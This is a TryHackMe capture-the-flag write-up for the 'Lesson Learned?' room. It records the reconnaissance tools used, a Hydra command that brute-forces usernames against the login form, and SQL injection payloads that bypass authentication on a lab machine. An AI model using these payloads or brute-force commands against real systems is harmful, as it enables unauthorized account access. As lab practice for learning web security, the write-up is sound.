 # Lesson Learned?
+ Link: https://tryhackme.com/r/room/lessonlearned
+ Type: Challenge

+ Target IP Address: 10.10.9.124

## Tools
+ NMAP
+ DIRB
+ Gobuster
+ OWASP ZAP
+ Burb Suite
+ Hydra

## External Resources
+ https://www.exploit-db.com/exploits/41694
+ https://www.stationx.net/owasp-zap-tutorial/
+ https://www.linkedin.com/pulse/lesson-learned-sqli-adam-natonik/
+ https://ctf101.org/web-exploitation/overview/
+ https://portswigger.net/burp/documentation/desktop/getting-started/intercepting-http-traffic
+ https://blog.noncenz.com/posts/lesson-learned/

## Task 1
1. Recon: `nmap -sV 10.10.9.124`. Saw that it had the services Apache and OpenSSH open.
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room02/Screenshots/1.png)
  
2. Went to http://10.10.9.124 and inspected the source code. Saw that it uses the POST method.
3. `dirb http://10.10.9.124`. Didn't find anything useful as it mostly outputted manual pages.
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room02/Screenshots/2.png)
  
4. Tried `gobuster dir -u http://10.10.9.124 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt` to see if the output would be different; there were no manual pages.
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room02/Screenshots/3.png)
  
5. Used OWASP ZAP Automated Scan and found that the website was vulnerable to SQL injection.
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room02/Screenshots/4.png)
  
6. Entered `ZAP' OR '1'='1' --`into the login page's usename field, but got a pop-ups stating that the table was lost.
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room02/Screenshots/5.png)
  
7. Used Burp Suite to find the login page's query.
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room02/Screenshots/6.png)
  
8. Used `hydra -L /usr/share/wordlists/SecLists/Usernames/Names/malenames-usa-top1000.txt -p qwe 10.10.9.124 http-post-form "/:username=^USER^&password=^PASS^:Invalid username and password."`
   to get possible usernames.
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room02/Screenshots/7.png)
  
9. Tried entering `arnold' AND 1=1 --`, `arnold' AND '1'='1' --`, `ARNOLD' AND 1=1`, and `ARNOLD' AND '1'='1'` into the login page's username field, but none would work.
10. Entered `arnold #` into the login page's username field and got the flag.

## Learned
+ New Tools: OWASP ZAP, Gobuster.
+ Hydra can be used to check for usernames too.
+ Injecting the SQL command `OR 1=1` is bad because it returns every row in the users table and can make it's way into a delete statement.
  Using `AND 1=1` and a valid input is best.